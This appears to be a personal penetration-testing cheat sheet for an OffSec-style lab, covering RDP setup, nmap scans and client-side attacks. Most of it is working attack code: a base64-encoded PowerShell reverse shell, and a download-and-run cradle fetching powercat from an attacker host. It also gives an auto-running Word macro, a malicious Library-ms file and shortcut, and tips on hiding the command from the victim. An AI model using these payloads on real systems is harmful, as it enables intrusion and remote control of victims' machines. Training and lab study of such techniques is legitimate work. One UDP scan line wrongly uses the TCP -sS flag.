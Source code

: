 # template

## Basics

### RDP session

```
xfreerdp /u:"offsec" /p:"lab" /v:"$TARGET" /cert-ignore /smart-sizing:2880x1800 /drive:/workspace,share

```

### Use AZERTY

Time & Language > Language & region > ... > Langage Options > Keyboards

### MTU

```
sudo ip link set dev tun0 mtu 1250
```





## Passive information gathering

* whois
* Google search
* crt.sh
*

## Scanning

### IF Network

* ping sweep

```
nmap -v -sn 192.168.50.1-253 -oG ping-sweep.txt --stats-every=5s
```

* put list of alive hosts in hosts.lst

```
grep Up ping-sweep.txt | cut -d " " -f 2 > hosts.lst
```

### ELSE IF Single Host

* put single host in hosts.lst

```
export TARGET = 192.168.50.1
ping $TARGET
echo $TARGET > hosts.lst
```

### FOR EACH host IN hosts.lst

* SYN-SCAN TCP of common ports

```
nmap -sS -iL hosts.lst --stats-every=5s
```

* Scan UDP of common ports

```
nmap -sS -iL hosts.lst --stats-every=5s
```

* SYN-SCAN TCP of all ports

```
nmap -sS -p- -iL hosts.lst --stats-every=5s
```

* Scan UDP of all ports

```
nmap -sU -p- -iL hosts.lst --stats-every=5s
```

## Common-Web attacks

### File upload

#### Generate payload

```
pwsh

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.215",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```





## Client-side attack

### Information gathering

#### Analyzing metadata of a file (w/o interaction with target)

```
exiftool -a -u brochure.pdf
```

#### By Interacting with the target

```
gobuster dir -u http://$TARGET -w /opt/seclists/Discovery/Web-Content/big.txt  -x .pdf -o results.txt

```

Or using [https://github.com/v0re/dirb/blob/master/wordlists/common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt)

### Microsoft Office

Prepare powercat.ps1 on host machine

```
python3 -m http.server 80
```



Payload :

```
pwsh

$Text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.200/powercat.ps1');powercat -c 192.168.45.200 -p 4444 -e powershell"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```

Cut by script.py&#x20;

<pre><code>str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA"
<strong>
</strong>n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
</code></pre>

We obtain

```
Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
Str = Str + "ALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAY"
Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwA"
Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
Str = Str + "A"

```

Macro Reverse shell

<pre><code>Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
<strong>    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
</strong>    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
    Str = Str + "ALgAxADYAOAAuADQANQAuADIAMAAwAC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMAAwACAALQBwA"
    Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"


    CreateObject("Wscript.Shell").Run Str
End Sub
</code></pre>

### Windows Library Files

**.Library-ms** file extension : it connects users with data stored in remote locations like web services or shares

#### Install webdav

```
pip3 install wsgidav

pip install wsgidav cheroot

```

#### Set up webdav share

```
touch /home/test.txt

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/
```

#### Create config.Library-ms on target

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.192</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>

```

When the file has been clicked , we need to remove the serialized tag that windows adds in the XML in order to use this malicious file again on an other target

#### Create a malicious .lnk

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.192:8000/powercat.ps1'); powercat -c 192.168.45.192 -p 4444 -e powershell"
```

\--> To be more stealthy , on can add basic commands and insert blanks before the reverse shell command so the malicious command will be out of the visible area for the user

#### Listening for reverse shell

```
// Where powercat.ps1 is located

python3 -m http.server 8000
```

```
nc -lvnp 4444
```













